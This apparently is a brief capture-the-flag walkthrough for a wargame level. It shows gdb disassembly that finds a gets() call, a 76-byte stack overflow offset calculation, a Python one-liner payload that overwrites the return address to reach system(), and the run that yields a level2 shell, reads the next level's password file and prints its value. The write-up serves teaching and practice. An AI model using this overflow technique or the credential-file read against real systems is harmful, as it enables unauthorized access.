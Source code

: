 1. Analyzed binary: gdb ./level1
   - info functions: found run() and main()
   - disassemble main: found gets() call (vulnerable)
   - disassemble run: found system() call (spawns shell)

2. Calculated overflow offset:
   - Buffer at %esp+0x10, stack frame 0x50 bytes
   - Offset: 0x50 - 0x10 + 4 = 76 bytes to return address

3. Created exploit:
   python -c "print 'A'*76 + '\x44\x84\x04\x08'" > /tmp/exploit

4. Executed exploit:
   (cat /tmp/exploit; cat) | ./level1
   Good... Wait what?
   whoami
   level2
   cat /home/user/level2/.pass
   53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

5. Switched to level2 user:
   su level2